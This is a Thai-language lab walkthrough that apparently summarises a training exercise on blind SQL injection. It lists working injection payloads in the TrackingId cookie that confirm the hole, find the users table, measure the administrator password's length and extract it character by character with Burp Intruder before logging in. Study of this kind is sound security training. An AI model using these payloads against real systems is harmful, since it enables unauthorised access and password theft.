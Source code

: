 **หมายเหตุ**
ฟังก์ชัน `SUBSTRING` เรียกว่า `SUBSTR` ในฐานข้อมูลบางประเภท 


![alt text](image-8.png)

**สรุปขั้นตอนการทำ Blind SQL Injection**

**ขั้นที่ 1: ทดสอบช่องโหว่**
- ใช้ Burp Suite สกัดกั้น TrackingId cookie
- ทดสอบ: `TrackingId=xyz' AND '1'='1` (ต้องเห็น "Welcome back")
- ทดสอบ: `TrackingId=xyz' AND '1'='2` (ไม่เห็น "Welcome back")

**ขั้นที่ 2: หาตารางและผู้ใช้**
- ทดสอบมีตาราง users: `xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
- ทดสอบมีผู้ใช้ administrator: `xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

**ขั้นที่ 3: หาความยาวรหัสผ่าน**
- ทดสอบทีละจำนวน: `xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
- เพิ่มตัวเลขไปเรื่อยๆ (>2, >3, >4...) จนเงื่อนไขเป็นเท็จ
- ผลลัพธ์: รหัสผ่านยาว 20 ตัวอักษร

**ขั้นที่ 4: หารหัสผ่านทีละตัวอักษร (ใช้ Burp Intruder)**
- ตั้งค่า payload: `xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§§`
- เพิ่ม payload a-z และ 0-9
- ตั้งค่า Grep "Welcome back"
- รันการโจมตี → หาตัวอักษรแรก
- เปลี่ยน offset เป็น 2,3,4... จนครบ 20 ตัว

**ขั้นที่ 5: เข้าสู่ระบบ**
- ใช้รหัสผ่านที่ได้ล็อกอินเป็น administrator

**หลักการ:** ใช้การตอบสนองที่แตกต่างกัน (มี/ไม่มี "Welcome back") เพื่อดึงข้อมูลทีละบิต



